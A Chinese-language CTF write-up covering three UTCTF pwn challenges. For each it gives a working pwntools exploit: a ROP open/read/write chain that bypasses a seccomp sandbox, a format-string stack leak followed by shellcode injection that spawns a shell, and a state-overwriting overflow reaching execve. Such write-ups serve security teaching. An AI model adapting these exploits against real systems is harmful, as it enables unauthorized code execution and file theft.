# UTCTF部分题解-先知社区

> **来源**: https://xz.aliyun.com/news/17294  
> **文章ID**: 17294

---

## secbof

题目描述：缓冲区溢出，但安全。Flag可以在“./flag.txt”中访问

检查保护



查看沙盒允许使用open，read，write

根据题目描述就是构造orw将flag读到bss段上并打印出来

题目是静态编译的，需要用到的函数/寄存器地址都可以找到

但是我们发现并没有找到open函数的地址，我们可以利用syscall去构造open

open函数的rdi应该是flag.txt文件名的地址，所以我们需要现构造一次read读入在bss段上写入flag.txt

将open的rdi寄存器的值设置为该地址即可



接下来构造read读取flag.txt里面的内容，并利用write打印出来



但是打远程发现并不会打印flag

多次尝试发现是read函数的问题，远程需要fd=5

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
#p=process('./secbof')
p=remote('challenge.utctf.live',5141)
elf=ELF('./secbof')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
bss=0x4C82C0
read=0x44F8E0
write=0x44F980
rdi=0x000000000040204f
rsi=0x000000000040a0be
rdx_rbx=0x000000000048630b
syscall=0x000000000041ae16
rax=0x0000000000450507
payload=b'a'*0x88
payload+=p64(rdi)+p64(0)+p64(rsi)+p64(bss+0x500)+p64(rdx_rbx)+p64(0x100)*2+p64(read)
payload+=p64(rdi)+p64(bss+0x500)+p64(rsi)+p64(0)+p64(rax)+p64(2)+p64(syscall)   #open
payload+=p64(rdi)+p64(5)+p64(rsi)+p64(bss+0x600)+p64(rdx_rbx)+p64(0x100)*2+p64(read)
payload+=p64(rdi)+p64(1)+p64(rsi)+p64(bss+0x600)+p64(rdx_rbx)+p64(0x100)*2+p64(write)
rl(b"Input> ")
#bug()
s(payload)
rl("Flag: ")
s(b'flag.txt')
inter()
```

## RETirement Plan



什么保护都没开



gets溢出，格式化字符串漏洞

根据题目名称和零保护开启，应该就是要我们写shellcode的。

先利用格式化字符串漏洞去泄露栈地址，然后去确定shellcode写入的地址

在发送payload的时候也需要注意到，我们多余空间不能用垃圾数据填充，否则程序就会卡死



我们可以用bss的地址去填充栈



这里计算出栈地址

再次写shellcode即可，把shellcode写到返回地址后面，返回地址+8即可执行shellcode

getshell

这个题应该也可以将shellcode写到栈上然后通过jmp\_rax去直接跳转到shellcode上(gets函数执行完之后rax寄存器存储的值是栈空间头地址)



```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
p=process('./shellcode')
#p=remote('challenge.utctf.live',9009)
elf=ELF('./shellcode')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
libc=ELF("/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6")
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
bss=0x601050
rl("<Insert prompt here>: 
")
payload=b'%17$p\x00\x00\x00'+p64(bss)*8+p64(elf.sym['main'])
sl(payload)
rl("0x")
stack=int(p.recv(12),16)-288
li(hex(stack))
shellcode = shellcraft.sh()
rl("<Insert prompt here>: 
")
payload=p64(bss)*9+p64(stack+0x50)+asm(shellcode)
#bug()
sl(payload)
inter()
```

## Tic Tac Toe

代码很长，但是没啥实质影响，都是简单的比较，输入正确继续下一步，错误就重新输入直至正确

​



把这些判断都过了，之后就可以执行execve了



getshell



​

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
#p=process('./tictactoe')
p=remote('challenge.utctf.live',7114)
#elf=ELF('./secbof')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
rl(b'Choose x or o: ')
sl(b'x')
rl(b'Enter 1-9 to select a spot: ')
sl(b'5')
rl(b'Enter 1-9 to select a spot: ')
sl(b'3')
rl(b'Enter 1-9 to select a spot: ')
sl(b'4')
rl(b'Enter 1-9 to select a spot: ')
sl(b'8'+b'\x00'*45+b'\x00'*4+b'\x01'*20+b'\x00'*7+b'\x03'*5)
inter()
```
